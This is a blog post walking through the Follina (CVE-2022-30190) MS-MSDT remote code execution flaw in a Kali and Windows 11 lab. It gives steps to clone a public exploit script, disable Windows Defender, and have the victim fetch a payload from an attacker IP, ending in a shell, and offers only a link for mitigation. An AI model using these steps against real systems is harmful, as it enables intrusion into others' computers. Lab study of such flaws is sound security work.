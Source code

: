 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina vulnerability (CVE-2022-30190)."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!
<br>
4 . Mitigations
<br>

---

## This post is designed to teach you how to exploit the CVE-2022-30190 MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this vulnerability can be exploited! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- CVE-2022-30190 is a vulnerability that has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, backdoor, etc. 

---

### 2. My Setup

For my attack computer, I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters. [Kali](https://www.kali.org/get-kali/#kali-virtual-machines)

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter. [Windows 11 Evaluation](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script that creates the malicious file, opens a listener, and hosts the malicious file.

**Before starting the exploit:**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion, you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    Step 3: Disable Windows Defender Real-Time Protection


![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)


    Step 4: Open Powershell

    Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer. 

**Thats it! You are in!**

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif?raw=true)

### 4. Mitigations

See the current response from [Microsoft](https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/) on how to mitigate the issue until a patch is released. 